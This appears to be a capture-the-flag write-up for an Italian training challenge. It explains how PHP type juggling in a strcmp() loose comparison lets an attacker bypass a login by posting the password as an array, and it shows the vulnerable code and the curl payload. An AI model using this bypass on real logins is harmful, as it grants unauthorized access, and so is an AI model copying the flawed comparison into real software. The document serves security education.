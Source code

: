 # URL
https://training.olicyber.it/challenges#challenge-57
# Concept
* PHP type juggling
* PHP strcmp function
# Method of solve
* the app uses this code for the login function:
```
<?php
      if (isset($_POST['password'])) {
        if (strcmp($_POST['password'], $password) == 0) {
          echo $FLAG;
        } else {
          echo '<br />Wrong Password<br /><br />';
        }
      }
?>
```
* the code uses loose comparison `==` in it `strcmp` function, which is vulnerable to the type juggling vulnerability
* in particular, we can use `strcmp` function with type juggling to compare a string against an array, which results in `NULL`
* `NULL` in PHP is akin to `0`, which is the True condition for the `strcmp` function
* we can send an array as the password in this case to return the `strcmp` function true, and login
```
curl -v -X POST -d 'password[]=test' http://clogin.challs.olicyber.it/
```

